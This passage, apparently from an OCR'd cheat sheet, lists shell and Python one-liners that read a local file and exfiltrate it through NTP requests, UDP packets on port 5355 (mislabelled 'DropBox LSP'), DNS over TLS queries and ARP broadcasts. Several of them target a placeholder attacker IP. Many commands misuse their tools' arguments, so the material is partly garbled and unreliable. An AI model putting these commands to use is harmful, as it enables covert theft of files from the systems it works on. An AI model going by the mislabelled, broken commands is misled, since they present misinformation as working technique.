 1. **Using ntpdate on Linux to send data in NTP packet requests:**


`echo -n "$(cat /path/to/local/file.txt)" | xxd -p | sed 's/\(..\)/\1 /g' | xargs -I {} ntpdate -q -d [attacker_IP] {}`

2. **Using ntpdate on macOS to send data in NTP packet requests:**


`echo -n "$(cat /path/to/local/file.txt)" | xxd -p | sed 's/\(..\)/\1 /g' | xargs -I {} sntp -q -s -d [attacker_IP] {}`

3. **Using ntpdate on Windows with Windows Subsystem for Linux (WSL) to send data in NTP packet requests:**


`echo -n "$(cat /mnt/c/path/to/local/file.txt)" | xxd -p | sed 's/\(..\)/\1 /g' | xargs -I {} ntpdate -q -d [attacker_IP] {}`

### DropBox LSP (Broadcast or Unicast) 

1. **Using Python to broadcast data over DropBox LSP:**


`python -c "import socket; sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM); sock.sendto('$(cat /path/to/local/file.txt)'.encode(), ('224.0.0.252', 5355))"`

2. **Using hping3 to unicast data over DropBox LSP:**


`echo -n "$(cat /path/to/local/file.txt)" | hping3 -2 -c 1 -d 120 -V [DropBox_LSP_server_IP]`

3. **Using Python to unicast data over DropBox LSP:**


`python -c "import socket; sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM); sock.sendto('$(cat /path/to/local/file.txt)'.encode(), ('[DropBox_LSP_server_IP]', 5355))"`

### DNS over TLS 

1. **Using `getdns_query` on Linux to send encrypted DNS queries with data:**


`getdns_query +tls_query +add_ta_from_parent_state +tls_auth_name=example.com @1.1.1.1 A "$(cat /path/to/local/file.txt).example.com"`

2. **Using `unbound-host` on Linux to send encrypted DNS queries with data:**


`unbound-host -T -C /etc/unbound/unbound.conf -v "$(cat /path/to/local/file.txt).example.com"`

3. **Using `stubby` on Linux to send encrypted DNS queries with data:**


`stubby -C /etc/stubby/stubby.yml "$(cat /path/to/local/file.txt).example.com"`

### ARP Broadcast 

1. **Using arping on Linux to send data in ARP broadcast packets:**


`echo -n "$(cat /path/to/local/file.txt)" | xxd -p | sed 's/\(..\)/\1 /g' | xargs -I {} arping -U -c 1 -I [interface_name] -S [spoofed_source_IP] -T [target_IP] -r {} -s [sender_IP]`
